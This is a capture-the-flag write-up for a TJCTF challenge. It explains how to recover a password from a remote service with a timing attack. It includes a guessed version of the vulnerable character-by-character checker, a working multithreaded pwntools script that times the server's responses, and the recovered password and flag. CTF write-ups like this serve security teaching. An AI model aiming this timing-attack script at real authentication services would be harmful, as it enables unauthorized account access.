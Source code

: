 # Python Reversing (40 points/ 36 solves)
## Problem statement:
>I hear there's a flag hiding behind this new service, Speedy Security(TM). Can you find it?
>nc problem1.tjctf.org 8003

<br>

## My opinion:
The idea of this problem was pretty easy, perform a timing attack. Easier said than done if you ask me. 
<br><br>

## The challenge:
Connecting through netcat on the server we get the following message:
```
Welcome to Speedy Security(TM), where we'll check your password as much as you like, for added security!
How many times would you like us to check each character of your password?
1
Please enter your password:
1
Authorization failed!
```

<br>

Ok so practically, we have a program that looks like this, or somewhat like this:

```python
def check(input,checks):
	password='thisisthepassword'
	for x in zip(input,password):
		for i in range(checks):
			if(x[0]!=x[1]):
				return 'Authorization failed!'
	return 'flag'
```

<br>

I know it's a wild guess, but after some trial and error that's what I came up with. <br>
Now, it's pretty simple how a [timing attack](https://en.wikipedia.org/wiki/Timing_attack) would work. <br> 
Try for a big number of checks (`10**6` worked for me) for each character of the password all possible characters and choose the one that took the most time to compute. Easy right? Not really, the server had some latency and sometimes it would freeze for a couple seconds. So you couldn't really guess the password in one go, also multithreading saved my life here. One more thing that was essential was to take the average of a few queries (`5` in this case was enough) in order to avoid the server's random latency.

## Getting the password:
I used the following code to get the password, but I had to restart it a few times with the last correct part of the password. I also asked the author for the length of the password, it was 32.<br>
Also, after geting the first 5 characters of the password I took another wild guess assuming the password would be made of alphanumerical characters.<br>

```python
from threading import Thread
from pwn import *
from time import time,sleep
CHECKS='1000000'
steps=5
PASS=''
S=[0 for i in range(256)]
pr='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890++'
pr=[ord(x) for x in pr]
def g(p):
	S[p]=0
	print chr(p)
	L=[Thread(target=f,args=(p,)) for i in range(steps)]
	for x in L:
		x.start()
	for x in L:
		x.join()
	S[p]/=steps
	
def f(p):
	s=remote('problem1.tjctf.org','8003')
	s.recvuntil('password?')
	s.sendline(CHECKS)
	s.recvuntil(':')
	x=time()
	s.sendline(PASS+chr(p)+'\x00'*(499-len(PASS)))
	s.recvuntil('failed!')
	y=time()
	S[p]+=y-x
	s.close()

while(1):
	for i in range(0,len(pr),8):
		W=[Thread(target=g,args=(pr[j],)) for j in range(i,i+8)]
		for R in W:
			R.start()
		for R in W:
			R.join()
	l=S
	l=[(l[pr[i]],chr(pr[i])) for i in range(len(pr))]
	print list(reversed(sorted(l)))
	l=list(reversed(sorted(l)))
	p=0
	while(l[p][1]=='+'):
		p+=1
	PASS+=l[p][1]
	print PASS
```

<br>

so the password was: **TkVWM3IgZ29OTjQgRzF2MyB5MHUgdVAK** <br>

```
Welcome to Speedy Security(TM), where we'll check your password as much as you like, for added security!
How many times would you like us to check each character of your password?
1
Please enter your password:
TkVWM3IgZ29OTjQgRzF2MyB5MHUgdVAK
Successfully authorized.
Welcome back, [[ EVAN ]]
Your flag is  tjctf{char_chks_c4n_b3_SLOW}
```

<br>

Flag: **tjctf{char_chks_c4n_b3_SLOW}**
